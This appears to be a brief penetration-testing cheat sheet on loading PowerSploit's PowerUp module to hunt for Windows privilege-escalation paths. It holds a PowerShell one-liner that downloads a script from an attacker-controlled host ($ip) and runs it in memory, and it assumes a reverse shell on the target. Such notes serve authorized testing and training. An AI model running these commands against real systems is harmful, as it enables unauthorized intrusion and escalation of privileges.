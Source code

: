 # PowerSploit Helpsheet

First load into memory unless you have WinRM access and are using [[Evil-winrm-Cheatsheet]]
```powershell
# Obtain powershell reverse shell on then execute powershell 
IEX(New-Object Net.WebClient).downloadString('http://$ip/PowerUp.ps1')
Invoke-AllChecks
```

For individual checks, exploits, hijacks and enumeration see this  page: 
[https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)